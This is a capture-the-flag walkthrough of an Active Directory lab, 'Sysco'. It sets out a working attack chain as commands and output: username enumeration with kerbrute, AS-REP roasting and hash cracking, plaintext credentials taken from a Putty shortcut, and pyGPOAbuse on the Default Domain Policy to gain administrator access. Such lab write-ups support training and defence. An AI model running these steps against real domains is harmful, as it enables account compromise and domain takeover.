

# Sysco

### **Scenario**

Sysco is a Managed Service Provider that has tasked you to perform an external penetration testing on their active directory domain. You must obtain initial foothold, move laterally and escalate privileges while evading Antivirus detection to obtain administrator privileges.

### **Objectives and Scope**

The **core objective** of this external penetration test is to simulate a realistic, determined adversary to achieve **Domain Administrator privileges** within Sysco's Active Directory (AD) environment. Starting from an external position, we will focus on obtaining an **initial foothold**, performing **lateral movement**, and executing **privilege escalation** while successfully **evading Antivirus (AV) and other security controls**. This is a red-team exercise to find security weaknesses before a real attacker does

Append the IP into `/etc/hosts`

```bash
sysco.htm    10.1.135.149
```

## Port Scan

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-favicon: Unknown favicon MD5: DD229045B1B32B2F2407609235A23238
|_http-title: Index - Sysco MSP
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-22 04:20:27Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-09-22T04:22:19+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SYSCO
|   NetBIOS_Domain_Name: SYSCO
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SYSCO.LOCAL
|   DNS_Computer_Name: DC01.SYSCO.LOCAL
|   DNS_Tree_Name: SYSCO.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-22T04:21:41+00:00
| ssl-cert: Subject: commonName=DC01.SYSCO.LOCAL
| Issuer: commonName=DC01.SYSCO.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-29T23:45:47
| Not valid after:  2026-11-28T23:45:47
| MD5:     ec3f 1383 3b82 1210 ec5f fbc1 f012 8e2c
| SHA-1:   ac7f a447 80ce 719e 96b4 2609 c6a5 6529 26bd 048b
| SHA-256: cc9b d77d 4e58 dc75 242b e3ea ed22 7aae db56 dacc 09ee a72f 5059 c17a 0798 f14e
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQOlnNPWy2kJtH5je7FCEk5jANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBEQzAxLlNZU0NPLkxPQ0FMMB4XDTI2MDUyOTIzNDU0N1oXDTI2
| MTEyODIzNDU0N1owGzEZMBcGA1UEAxMQREMwMS5TWVNDTy5MT0NBTDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALoF0pbGgY0OEVNx1V9zqV7WuegfDYY/
| 7QbdHPBJaVh9pKQQqhXHyWI+3gPCGKIY/aWiwLruVCjyVdxs0HbNF7ptEbb6pT49
| ayG+K0Cg+xPQLhKDD0QEjSC1i0hoWyjpehRKq+MGxtJgDfG0k9ihAnVNGddwtnbJ
| IcajqiO6oIvLIUyS+x1tWYOnNq+g4R+LhGLgc64OaSgZ4+nQAwGahMIxOsuseLmg
| ypqzEG1DO1JzITU5n7qSvVqZctdQSwVN9TFX0i05MXG7PzrabQpTJSomtlTxis52
| m21J8kPb5NE8CjZSsdVJZ2kP4uN6HYwLpf7J5a2oL+/mJfWk0DxThsECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQBb+j7/N75+DsdG2m9TaofBhYXV+SN6RBHsi2JGNRc4C4IRmRENkKHK
| +nxyYS9gzB/L35Z7Ekmv/E61mnnL2uyUQdHRCLcWUVYOAUeNWtQlMbKuql99m2CA
| PwpLHeF+3025OdyGa/grdy/0LiV4mWlLbyuh7oA2NhEpEjuKxD+ftQ0Xg3YruG9n
| jJAFgkX6eNckVPSUMtzgVN327X+l7OAKtQIW97nseFJJA5HSZ/apB583mOwJBbRD
| 6gJgDev5crYRjGvGxD0ohGAghihqSdF5dO1p6iaDrQyTJa3aox8gong7Hx3hGcTP
| gDmHyPgjXFYJ6A3Dz7bpvUtRFYTdxoKg
|_-----END CERTIFICATE-----
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49680/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49681/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49732/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
```

The certificate in port 3389 (RDP) reveals the following 

```bash
DC01.SYSCO.LOCAL
SYSCO.LOCAL
```

Add this to `/etc/hosts`

---

## SMB

It seems that the guest account is disabled.

```bash
└─$ smbclient -L //sysco.hsm -U 'guest' -N                                                                                                                                                                                                  
session setup failed: NT_STATUS_LOGON_FAILURE
```

We might need valid credentials to read the shares.

---

## LDAP

I also used `ldapsearch`, and it reveal different names

```bash
└─$ ldapsearch -H ldap://sysco.hsm 389 -x -s base -b '' "(objectClass=*)" "*" +                                                                                                 ...

subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=SYSCO,DC=LOCAL
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=SYSCO,DC=LOCAL
schemaNamingContext: CN=Schema,CN=Configuration,DC=SYSCO,DC=LOCAL
namingContexts: DC=SYSCO,DC=LOCAL
namingContexts: CN=Configuration,DC=SYSCO,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=SYSCO,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=SYSCO,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=SYSCO,DC=LOCAL
isSynchronized: TRUE
highestCommittedUSN: 53289
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=SYSCO,DC=LOCAL
dnsHostName: DC01.SYSCO.LOCAL
defaultNamingContext: DC=SYSCO,DC=LOCAL
currentTime: 20260923082613.0Z
configurationNamingContext: CN=Configuration,DC=SYSCO,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

---

## RPC

RPC reveals nothing useful 

```bash
─$ rpcclient -U '' -N sysco.hsm
rpcclient $> serverinfo
command not found: serverinfo
rpcclient $> lsaenumsid
result was NT_STATUS_ACCESS_DENIED
rpcclient $> serverinfo
command not found: serverinfo
rpcclient $> netshareenumall
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED
```

---

## HTTP

Since other services do not bring us forward, we have to move to the HTTP web page.



The bottom shows a contact form, which returns an Error when we submit the form


---

## RoundCube

When I perform web fuzzing using a large wordlist, I found the `roundcube` directory. 

```bash
└─$ feroxbuster -u http://sysco.hsm -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 

...

[####################] - 27m   220545/220545  136/s   http://sysco.hsm/roundcube/ 
[####################] - 27m   220545/220545  138/s   http://sysco.hsm/roundcube/public_html/
```

RoundCube is a popular webmail service. I tried to break in using some common credentials but failed.


Viewing the source code, I found a line with something called the `rcversion`

```bash
"rcversion":10611,
```

Searching this online brings me to a [Github](https://github.com/rxerium/CVE-2025-49113) page. In the mapping table, I found the received `rcversion`.

```bash
10611	1.6.11
```

So version `1.6.11` it is.

As the above page suggest, it is related to [CVE-2025-49113]([https://nvd.nist.gov/vuln/detail/cve-2025-49113](https://nvd.nist.gov/vuln/detail/cve-2025-49113)). Unfortunately, related means that only RoundCube that before this version is vulnerable to this CVE.

The fuzzing only reveals the `roundcube` directory, and nothing more interesting files that worth me to dig. 

---

## Finding Valid Users

On top of contact form, we found the team consist of four people.


Here are the names:

```bash
Greg Shields
Sarah Jhonson
Jack Dowland 
Lainey Moore
```

However at that point, I have no idea how can the names lead to a compromise.

So I refer to [Tyler’s walkthrough]([https://youtu.be/eW8MrS8SmKk?si=XibQuvOUMCJ0eU0x&t=750](https://youtu.be/eW8MrS8SmKk?si=XibQuvOUMCJ0eU0x&t=750)), and realize the above name can be transformed to an username wordlist . 

The tool is called [**AD-Username-Generator**](https://github.com/mohinparamasivam/AD-Username-Generator)

So I took the previous name list (`users.txt`) and stored the output as `ad-users.txt`

```bash
└─$ python username-generate.py -u ../loots/users.txt -o ../loots/ad-users.txt
 
Usernames Generated Successfully
```

Then, pass it to `kerbrute` to test which usernames are valid.

```bash
└─$ kerbrute userenum -d sysco.local --dc 10.1.135.149 ad-users.txt                                                                                                                                                                                                                                                     

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 09/26/26 - Ronnie Flathers @ropnop

2026/09/26 21:40:01 >  Using KDC(s):
2026/09/26 21:40:01 >   10.1.135.149:88

2026/09/26 21:40:02 >  [+] VALID USERNAME:       greg.shields@sysco.local
2026/09/26 21:40:02 >  [+] VALID USERNAME:       lainey.moore@sysco.local
2026/09/26 21:40:03 >  [+] jack.dowland has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$jack.dowland@SYSCO.LOCAL:...
```

I found a hash :0

---

## ASREProast (`jack.dowland`)

It seems that `jack.dowland` is a valid username, and no pre-auth is required. 

So `jack.dowland` is vulnerable to [ASREProast]([https://www.thehacker.recipes/ad/movement/kerberos/roasting/asreproast](https://www.thehacker.recipes/ad/movement/kerberos/roasting/asreproast)).

`kerbrute` is good enough to do the checking for us. As an alternatives, I can also pass the usernames to `impacket-GetNPUsers` to find for account that set the  `UF_DONT_REQUIRE_PREAUTH` flag.

```bash
└─$ impacket-GetNPUsers sysco.local/ -usersfile valid_ad_users.txt -dc-ip 10.1.135.149 -request -format hashcat                                                                                                                                                                                                             
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] User greg.shields doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lainey.moore doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jack.dowland@SYSCO.LOCAL:...
```

Using `hashcat`, I found the password and gather a valid set of credentials.

```bash
jack.dowland:xxxxxxxxx
```

## Information Gathering

I first used `nxc` to ensure the credentials are valid

```bash
└─$ nxc smb sysco.local -u jack.dowland -p $jack_pw --shares
SMB         10.1.135.149    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.135.149    445    DC01             [+] SYSCO.LOCAL\jack.dowland:xxxxxxxx
SMB         10.1.135.149    445    DC01             [*] Enumerated shares
SMB         10.1.135.149    445    DC01             Share           Permissions            Remark
SMB         10.1.135.149    445    DC01             -----           -----------            ------
SMB         10.1.135.149    445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.135.149    445    DC01             C$                                     Default share
SMB         10.1.135.149    445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.135.149    445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.135.149    445    DC01             SYSVOL          READ                   Logon server share 
```

Then I check the password policy

```bash
└─$ nxc smb sysco.local -u jack.dowland -p $jack_pw --pass-pol
SMB         10.1.135.149    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.135.149    445    DC01             [+] SYSCO.LOCAL\jack.dowland:xxxxxxxxx
SMB         10.1.135.149    445    DC01             [+] Dumping password info for domain: SYSCO
SMB         10.1.135.149    445    DC01             Minimum password length: 7
SMB         10.1.135.149    445    DC01             Password history length: 24
SMB         10.1.135.149    445    DC01             Maximum password age: Not Set
SMB         10.1.135.149    445    DC01             
SMB         10.1.135.149    445    DC01             Password Complexity Flags: 000000
SMB         10.1.135.149    445    DC01                 Domain Refuse Password Change: 0
SMB         10.1.135.149    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.1.135.149    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.1.135.149    445    DC01                 Domain Password No Clear Change: 0
SMB         10.1.135.149    445    DC01                 Domain Password No Anon Change: 0
SMB         10.1.135.149    445    DC01                 Domain Password Complex: 0
SMB         10.1.135.149    445    DC01             
SMB         10.1.135.149    445    DC01             Minimum password age: None
SMB         10.1.135.149    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.1.135.149    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.1.135.149    445    DC01             Account Lockout Threshold: None
SMB         10.1.135.149    445    DC01             Forced Log off Time: Not Set
```

Notice:

```bash
 Account Lockout Threshold: None
```

That means I can potentially brute force the password of `lainey.moore` and `greg.shields` without being lock down.

## Bloodhound

Compromising `jack.dowland` meaning I can use bloodhound to find my next target.

For the `jack.dowland` user, it is a low-privilege account. 

However, `lainey.moore` is inside the RDP group.


I can use RDP to after compromising the account.

The `greg.shields` account is even much powerful. It can modify the Default Domain Policy.


So the attacker path should be the following:

1. Compromise the `lainey.moore` account
2. Pivot from there to `greg.shields`
3. Edit the Default Domain Policy 

## Revisit RoundCube (`lainey.moore`)

I plugged in the exact credentials of `jack.dowland` to the RoundCube mail, and it works.

There is only one email sent to `lainey.moore`.


As an attachment, a file called `router2.cfg` is included.

```bash
└─$ strings router2.cfg                                                                                                                                                                                                                     
version 15.1
no service timestamps log datetime msec
no service timestamps debug datetime msec
no service password-encryption
hostname R2
enable secret 5 xxxxxxxxxxxxx...
ip cef
no ipv6 cef
license udi pid CISCO2911/K9 sn FTX15245718-
spanning-tree mode pvst
interface GigabitEthernet0/0
 mac-address 0000.01cc.cccc
 ip address 192.168.122.2 255.255.255.0
 duplex auto
 speed auto
interface GigabitEthernet0/1
 mac-address 0000.01dd.dddd
 ip address 192.168.13.2 255.255.255.0
 duplex auto
 speed auto
interface GigabitEthernet0/2
 no ip address
 duplex auto
 speed auto
 shutdown
interface Vlan1
 no ip address
 shutdown
ip classless
ip route 192.168.1.0 255.255.255.0 192.168.12.1 
ip route 192.168.3.0 255.255.255.0 192.168.13.3 
ip flow-export version 9
no cdp run
line con 0
line aux 0
line vty 0 4
 login
```

And I found a hash secret :0.

Crack the hash :)

```bash
└─$ john another.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxx       (?)     
1g 0:00:00:00 DONE (2026-09-28 22:50) 9.090g/s 544581p/s 544581c/s 544581C/s kaylak..ninfa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And the password is exactly the password for `lainey.moore`

```bash
└─$ nxc smb sysco.local -u lainey.moore -p $lainey_pw 
SMB         10.1.135.149    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.135.149    445    DC01             [+] SYSCO.LOCAL\lainey.moore:xxxxxxxxxx
```

Now, I can finally make good use of port 3389 (RDP)

```bash
└─$ xfreerdp3 /v:sysco.local /u:lainey.moore /p:$lainey_pw +dynamic-resolution

Certificate details for sysco.local:3389 (RDP-Server):
        Common Name: DC01.SYSCO.LOCAL
        Subject:     CN = DC01.SYSCO.LOCAL
        Issuer:      CN = DC01.SYSCO.LOCAL
        Valid from:  May 29 23:45:47 2026 GMT
        Valid to:    Nov 28 23:45:47 2026 GMT
        Thumbprint:  cc:9b:d7:7d:4e:58:dc:75:24:2b:e3:ea:ed:22:7a:ae:db:56:da:cc:09:ee:a7:2f:50:59:c1:7a:07:98:f1:4e
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
```

And of course, the user flag as well.


---

## Putty Shortcut (`greg.shields`)

The privileges is pretty limited in the `lainey.moore` account.

```bash
C:\Users\lainey.moore>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

One weird thing I found is that I cannot list all the users accounts.

```bash
C:\Users\lainey.moore>net users

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            krbtgt                   lainey.moore
The command completed successfully
```

I almost forget that this room has AV available. So `winpeas.exe` is flagged as malware and unable to use.


However, when I navigate to Documents, I found a `notes.txt` and Putty.


Here is the original text

```bash
-Ssh to the 10.0.0.1 router with credentials provided by sysadmin to update ACLs for HS company
-Fix errors in config provided by tier 1 for Minicorp's new office ro
```

I think maybe the shortcut will contain SSH credentials to login remotely to the router?

When I check the properties, it contains the password in plain text.


And `greg.shields` is compromised


---

## Overwriting Domain Policy

What is left is overwriting the domain policy


I found a [WriteDacl abuse  on Default Domain Policy](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Active%20Directory%20Attacks/Access%20Control%20List%20(ACL)%20Abuse/WriteDacl%20on%20Default%20Domain%20Policy.md), which is exactly what I want. 

However, reality is always cruel ☹️


Then I come to [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

> This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.
> 

To do that, I need to know the ID of GPO, which can be located in BloodHound.


I just pass the `gpo-id` in the following manner

```bash
└─$ python3 pygpoabuse.py sysco.local/greg.shields:$greg_pw -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9'
[+] ScheduledTask TASK_7567a01e created!
```

The above command is derived from the basic usage, which creates a local administrator account called `john`.

With this, we can try to RDP :)

```bash
john:H4x00r123..
```

And it does not go too well


So I use `evil-winrm`

```bash
└─$ evil-winrm -i sysco.local -u john -p H4x00r123..
```

Use `whoami /priv` confirms the success exploit.


And I can get the juicy `root.txt`

```bash
*Evil-WinRM* PS C:\Users> cd Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/18/2025   7:48 PM           2308 Microsoft Edge.lnk
-a----        10/18/2025  11:10 PM             32 root.txt
```

## Improvements

After going through [Tyler’s Walkthrough](https://youtu.be/OoEQwjzM0uE?si=t09zdX9qGRT6kCcU&t=1072), I realized I can just add the `greg.shields` user to the `Administrators` group

```bash
└─$ python3 pygpoabuse.py sysco.local/greg.shields:'xxxxxxxxxxxxxxxxxxxx' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup Administrators greg.shields /add' -f                                                        
[+] ScheduledTask TASK_57036d8b created!
```

Use `gpupdate /force` to apply the changes.


This should be the fastest way to escalate the privileges.

Alternatively, I can just add the john user to the `Remote Desktop Users` group instead.

```bash
─$ python3 pygpoabuse.py sysco.local/greg.shields:'xxxxxxxxxxxxxxxx' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup "Remote Desktop Users" john /add' -f                                                 
[+] ScheduledTask TASK_ddd132d8 created!
```

Apply the Group policy using `gpupdate /force`


And now, we can connect using RDP with the `john` account


